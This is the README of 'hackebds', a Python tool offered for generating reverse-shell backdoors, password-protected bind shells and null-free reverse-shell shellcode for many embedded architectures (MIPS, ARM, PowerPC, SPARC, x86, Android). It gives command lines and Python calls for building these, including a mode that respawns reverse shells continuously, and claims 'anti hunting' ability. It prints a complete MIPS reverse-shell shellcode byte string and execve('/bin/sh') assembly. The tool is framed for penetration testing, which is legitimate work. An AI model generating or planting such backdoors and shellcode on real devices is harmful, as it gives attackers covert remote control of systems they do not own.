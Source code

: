 hackebds
========

| |image1|\ |image2|
| |image3|

🔗\ `中文readme <https://github.com/doudoudedi/hackEmbedded/blob/main/readme_cn.md>`__

foreword
--------

   In the process of penetration and vulnerability mining of embedded
   devices, many problems have been encountered. One is that some
   devices do not have telnetd or ssh services to obtain an interactive
   shell，Some devices are protected by firewall and cannot be connected
   to it in the forward direction Reverse_shell is required, and the
   other is that memory corruption vulnerabilities such as stack
   overflow are usually Null bytes are truncated, so it is more
   troublesome to construct reverse_shellcode, so this tool was
   developed to exploit the vulnerability. This tool is developed based
   on the PWN module and currently uses the python2 language，\ **Has
   been updated to python3**

fuction
-------

This tool is embedded in the security test of the device. There are two
main functions:

1. Generate **backdoor programs** of various architectures. The backdoor
   program is packaged in shellless pure shellcode and is smal，Pure
   static backdoor .\ **Armv5, Armv7, Armv8, mipsel,
   mips，mips64，mipsel64，powerpc, powerpc64，sparc,sparc64 are now
   supported, and they are still being updated** (PS:bash support is
   added to the reverse shell after version 0.3.1). If the backdoor of
   the reverse shell is generated with the - power parameter, the
   reverse shell will continue to be generated on the target machine)

2. Generate **reverse_shell shellcode** of various architectures during
   the exploit process, and no null bytes, which facilitates the
   exploitation of memory corruption vulnerabilities on embedded
   devices. **Armv5, Armv7, Armv8, mipsel, mips, mips64, mipsel64,
   powerpc, powerpc64，sparc are now supported, and they are still being
   updated**

3. Generate bind of various architectures bind_Shell file.

4. Support command line generation backdoor and shell code, Strong anti
   hunting ability,characterized by light, small, efficient and fast

install
-------

pip download（Use the command line need sudo）

.. code:: 

   sudo pip(3) install -U hackebds

（If you want this tool to run on a MacOS system, you need to include
python/bin in the bashrc environment variable）

.. code:: 

   echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png
   :alt: 

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png
   :alt: 

Instructions for use
~~~~~~~~~~~~~~~~~~~~

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png
   :alt: 

| Please install the corresponding binutils environment before use
| expample:

.. code:: 

   Ubuntu（debian）:
     apt search binutils | grep arm（You can replace it here， if not please execute "apt update" first）
     apt install binutils-arm-linux-gnueabi/hirsute
    MacOS:
    	 https://github.com/Gallopsled/pwntools-binutils
    	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb

1. Use the command line to generate the backdoor file name, shellcode,
   bindshell, etc

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file

   By default, the reverse shell backdoor is created using sh. If bash
   is required (PS: here, the bash command needs to exist on the target
   device)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash

   If you need to generate a backdoor and constantly create reverse
   shells (the CPU occupied by the test is about% 8)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png
      :alt: 

   .. code:: 

      hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png
      :alt: 

   Generate cmd_file function is updated. Only need to specify the - cmd
   parameter to generate programs for various architectures to execute
   corresponding commands , -envp Environment variables are separated by
   commas

   .. code:: 

      hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153510332.png
      :alt: 

   The list relationship between the output model and the architecture
   is added to the function of generating the backdoor for the specified
   model, which is convenient for observation and modification

   .. code:: 

      hackebds -l

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230116204717279.png
      :alt: 

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153942787.png
      :alt: 

2. Generate backdoor programs of various architectures, encapsulate pure
   shellcode, and successfully connect to the shell

.. code:: 

   >>> from hackebds import *
   >>> mipsel_backdoor(reverse_ip,reverse_port)
   >>> mips_backdoor(reverse_ip,reverse_port)
   >>> aarch64_backdoor(reverse_ip,reverse_port)
   >>> armelv5_backdoor(reverse_ip,reverse_port)
   >>> armelv7_backdoor(reverse_ip,reverse_port)
   >>> armebv5_backdoor(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_backdoor(reverse_ip,reverse_port)
   >>> mips64el_backdoor(reverse_ip,reverse_port)
   >>> x86el_backdoor(reverse_ip,reverse_port)
   >>> x64el_backdoor(reverse_ip, reverse_port)
   >>> sparc32.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> sparc64.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> powerpc_info.powerpc_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpcle_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64le_backdoor(reverse_ip, reverse_port)
   >>> x86_bind_shell(listen_port, passwd)
   >>> x64_bind_shell(listen_port, passwd)
   >>> armelv7_bind_shell(listen_port, passwd)
   >>> aarch64_ bind_ shell(listen_port, passwd)
   >>> mips_bind_shell(listen_port, passwd)
   >>> mipsel_bind_shell(listen_port, passwd)
   >>> sparc32.sparc_bind_shell(listen_port, passwd)
   >>> powerpc_info.powerpc_bind_shell(listen_port, passwd)

（Note that the maximum password length is 4 characters for
x86（32bits） and 8 characters for x64（64bits））

.. code:: 

   >>> mipsel_backdoor("127.0.0.1",5566)
   [+] reverse_ip is: 127.0.0.1
   [+] reverse_port is: 5566
   [*] waiting 3s
   [+] mipsel_backdoor is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png
   :alt: 

.. code:: 

   >>> from hackebds import *
   >>> x86_bind_shell(4466,"doud")
   [+] bind port is set to 4466
   [+] passwd is set to 'doud'
   0x0000000064756f64
   [*] waiting 3s
   [+] x86_bind_shell is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png
   :alt: 

Then connect to the port bound to the device (password exists)

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png
   :alt: 

1. Generates the use-back shellcode (no free) null bytes corresponding
   to various architectures

.. code:: 

   >>> from hackebds import *
   >>> mipsel_reverse_sl(reverse_ip,reverse_port)
   >>> mips_reverse_sl(reverse_ip,reverse_port)
   >>> aarch64_reverse_sl(reverse_ip,reverse_port)
   >>> armelv5_reverse_sl(reverse_ip,reverse_port)
   >>> armelv7_reverse_sl(reverse_ip,reverse_port)
   >>> armebv5_reverse_sl(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_reverse_sl(reverse_ip,reverse_port)
   >>> mips64el_reverse_sl(reverse_ip,reverse_port)
   >>> android_aarch64_backdoor(reverse_ip,reverse_port)
   >>> x86el_reverse_sl(reverse_ip,reverse_port)
   >>> x64el_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppcle_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64le_reverse_sl(reverse_ip,reverse_port)

example:

.. code:: 

   >>> from hackebds import *
   >>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
   [+] No NULL byte shellcode for hex(len is 264):
   \xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01

1. Added that shellcode for calling execve cannot be generated in
   shellcraft (change context generate mips64(el), powerpc shell code
   for execve("/bin/sh",["/bin/sh"]),0))

   .. code:: 

      >>> from hackebds import *
      >>> test = ESH()
      [*] arch is i386
      [*] endian is little
      [*] bits is 32
      >>> test.sh()
      [*] Please set correct assembly schema information(pwerpc or mips64(el))
      >>> context.arch = 'mips64'
      >>> test.sh()
      "\n\t\t\t/* execve(path='/bin/sh', argv=['sh'], envp=0) */\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1, -8($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -8\n\t\t\tdadd     $a0, $sp, $zero\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1,-12($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -8($sp)\n\t\t\tsw      $zero, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -12\n\t\t\tslti    $a1, $zero, -1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tli      $t9, -9\n\t\t\tnor     $a1, $t9, $zero\n\t\t\tdadd     $a1, $sp, $a1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tdadd     $a1, $sp, $zero\n\t\t\tslti    $a2, $zero, -1\n\t\t\tli      $v0, 0x13c1\n\t\t\tsyscall 0x40404\n\t\t\t"
      >>> test.sh()

chips and architectures
-----------------------

Tests can leverage chips and architectures

| Mips:
| MIPS 74kc V4.12 big endian,
| MIPS 24kc V5.0 little endian (Ralink SoC)
| Ingenic Xburst V0.0 FPU V0.0 little endian

| Armv7:
| Allwinner(全志)V3s

| Armv8:
| Qualcomm Snapdragon 660
| BCM2711

Powerpc, sparc: qemu

🍺enjoy hacking(happy Chinese new Year!)
----------------------------------------

updating
--------

2022.4.19 Added support for aarch64 null-byte reverse_shellcode

2022.4.30 Reduced amount of code using functions and support python3

2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and
mipsel_reverse_sl were not enabled, added mips64_backdoor,
mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl
generation

2022.5.21 0.0.9 version changed the generation method of armel V5
backdoor and added the specified generation of riscv-v64 backdoor

2022.6.27 0.1.0 Added Android backdoor generation

2022.10.26 0.1.5 Fixed some problems and added some automatic generation
functions of bindshell specified port passwords

2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

2022.11.1 Removed the generation sleep time of shellcode, and added
mips\_ bind\_ Shell, reverse of x86 and x64 small end\_ shell\_
Backdoor, the mips that are expected to be interrupted by mips\_ bind\_
Shell, which solves the error of password logic processing in the
bindshell in mips

|  2022.11.2 Joined aarch64\_ bind\_ shell
|  2022.11.2 Support command line generation backdoor and shell code,
  characterized by light, small, efficient and fast

2022.12.6 0.2.8 Add sparc_bind_shell && powerpc_bind_shell ，fix some
bug

2022.12.26 0.2.9 Added the program function of generating specified
commands, and added executable permissions after generating files

2023.1.6 0.3.0 repaired cmd\_ The file generates the function bug of
executing the specified command program, and adds the model ->arch list,
Android bind\_ Shell file

2023.1.16 0.3.1 Added bash reverse\_ Shell. At present, this tool only
supports sh and bash. The - l function is added to list the relationship
between device model and architecture, and the - power function is added
to generate a more powerful reverse\_ shell\_ File, which realizes the
continuous creation of reverse shell links without killing the program.
Currently, the - power function only supports reverse\_ shell\_ file

Problems to be solved
---------------------

0.3.1 version add

-l args List all data related to model and arch (Completed to be
released)

powerpc_reverse_shell stdeer bug (Completed to be released)

Under various architectures interactive reverse_shell linking bash and
sh add bash-reverse_shell (Completed to be released)

powerfull-reverse_shell， Realize the non-stop creation of
reverse-shells on the premise of minimizing CPU consumption （To be
completed）

vul fix
-------

CVE-2021-29921 The tool is a complete client program. This vulnerability
will not affect the use of the tool. If you want to fix it, please run
the tool in python 3.9 and above

CVE-2022-40023 DOS_attack pip install -U mako (The vulnerability does
not apply to this tool)

CVE-2021-20270 DOS_attack pip install -U pygments (The vulnerability
does not apply to this tool)

0.2.5 Version Repair directory traversal in the specified model

Verion List
-----------

+--------------------------+--------------+------------------------+
| VERSION                  | PUBLISHED    | DIRECT VULNERABILITIES |
+==========================+==============+========================+
| `0.3.0 <https:/          | 6 Jan, 2023  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.9 <https:/          | 26 Dec, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.8 <https:/          | 6 Dec, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.7 <https:/          | 22 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.3 <https:/          | 15 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.2 <https:/          | 8 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.1 <https:/          | 7 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.0 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.9 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.6 <https:/          | 27 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.5 <https:/          | 26 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.3 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.2 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.1 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.9 <https:/          | 21 May, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.8 <https:/          | 5 May, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.7 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.6 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.5 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.4 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.4>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.3 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.2 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.1 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.1>`__ |              |                        |
+--------------------------+--------------+------------------------+

.. |image1| image:: https://img.shields.io/pypi/wheel/hackebds
.. |image2| image:: https://img.shields.io/pypi/pyversions/pwntools
.. |image3| image:: https://static.pepy.tech/badge/hackebds
   :target: https://pepy.tech/project/hackebds
